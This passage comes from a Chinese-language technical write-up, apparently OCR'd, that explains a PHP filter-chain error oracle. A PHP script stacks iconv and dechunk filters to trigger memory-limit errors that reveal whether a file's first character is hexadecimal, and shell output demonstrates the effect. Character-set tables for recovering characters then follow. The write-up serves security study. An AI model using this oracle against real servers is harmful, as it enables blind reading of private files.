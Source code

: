 因此，如果第一个字符是十六进制值，输出将为空，整个链发生改变，会触发 `memory_limit` 错误，将两种方法结合起来使用就是：

```bash
<?php

$size_bomb = "";
for ($i = 1; $i <= 13; $i++) {
    $size_bomb .= "convert.iconv.UTF8.UCS-4|";
}
$filter = "php://filter/dechunk|$size_bomb/resource=/tmp/test";

echo file_get_contents($filter);
```

```bash
$ echo 'GSTART' > /tmp/test
$ php oracle.php 
Fatal error: Allowed memory size of 134217728 bytes exhausted (tried to allocate 117440512 bytes) in /tmp/oracle.php on line 10

$ echo 'aSTART' > /tmp/test
$ php oracle.php
```

## 四、检索前向字符的值

现在已经可以确定前向字符什么时候是十六进制，然后需要一种确定性的方法来转换范围内的任何字符，并且要减少来自 oracle 的爆破的可能值的数量，可以使用 `convert.base64-encode` filter。

### 检索\[a-e\]的字符

下面开始确定字符是在 `[a-e]` 还是 `[A-E]` 内的链开始，首先是片假名主机（Katakana Host）：扩展的 SBCS 编解码器（extended SBCS codec），它是 `CP930` 或 X-IBM930 的别名。

[https://www.fileformat.info/info/charset/x-IBM930/encode.htm](https://www.fileformat.info/info/charset/x-IBM930/encode.htm)

ASCII 编解码器表

|     | x0  | x1  | x2  | x3  | x4  | x5  | x6  | x7  | x8  | \[...\] | xf  |
| --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- |
| \[...\] |     |     |     |     |     |     |     |     |     |     |     |
| 6x  | \`  | **a** | **b** | **c** | **d** | **e** | **f** | g   | h   | \[...\] | o   |
| \[...\] |     |     |     |     |     |     |     |     |     |     |

X-IBM-930 编解码器表

| x0  | x1  | x2  | x3  | x4  | x5  | x6  | x7  | x8  | \[...\] | xf  |     |
| --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- | --- |
| \[...\] |     |     |     |     |     |     |     |     |     |     |     |
| 6x  | \-  | /   | **a** | **b** | **c** | **d** | **e** | **f** | g   | \[...\] | ?   |
| \[...\] |     |     |     |     |     |     |     |     |     |     |     |
| cx  | {   | **A** | **B** | **C** | **D** | **E** | **F** | G   | H   | \[...\] |     |
| \[...\] |     |     |     |     |     |     |     |     |     |     |     |
| fx  | **0** | **1** | **2** | **3** | **4** | **5** | **6** | **7** | **8** | \[...\] | Ÿ   |

